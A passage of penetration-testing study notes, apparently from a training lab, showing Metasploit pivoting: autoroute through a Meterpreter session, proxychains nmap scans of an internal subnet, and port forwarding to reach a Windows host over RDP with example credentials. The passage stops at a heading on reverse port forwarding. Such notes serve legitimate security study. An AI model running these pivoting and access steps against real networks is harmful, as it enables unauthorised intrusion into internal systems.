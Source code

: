     msf6 post(multi/manage/autoroute) > set SESSION 1
    SESSION => 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    SUBNET => 172.16.5.0
    msf6 post(multi/manage/autoroute) > run

    [!] SESSION may not be compatible with this module:
    [!]  * incompatible session platform: linux
    [*] Running module against 10.129.202.64
    [*] Searching for subnets to autoroute.
    [+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
    [+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
    [*] Post module execution completed
    ```

    **We can also run  autoroute rirectly from the meterpreter session**
    ```
    meterpreter > run autoroute -s 172.16.5.0/23

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    [*] Adding a route to 172.16.5.0/255.255.254.0...
    [+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
    [*] Use the -p option to list all active routes
    ```

    **make sure routes are active**
    ```   
    meterpreter > run autoroute -p

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]

    Active Routing Table
    ====================

    Subnet             Netmask            Gateway
    ------             -------            -------
    10.129.0.0         255.255.0.0        Session 1
    172.16.4.0         255.255.254.0      Session 1
    172.16.5.0         255.255.254.0      Session 1 
    ```
8. Now we can use proxychains to scan the network with nmap
    ```
    proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
    ```

## Metasploit local port forwarding in meterpreter 

1. portfwd add -l 3300 -p 3389 -r 172.16.5.19

The above command requests the Meterpreter session to start a listener on our attack host's local port (-l) 3300 and forward all the packets to the remote (-r) Windows server 172.16.5.19 on 3389 port (-p) via our Meterpreter session. Now, if we execute xfreerdp on our localhost:3300, we will be able to create a remote desktop session.
2. xfreerdp /v:localhost:3300 /u:victor /p:pass@123
## Metasploit reverse port forwarding in meterpreter

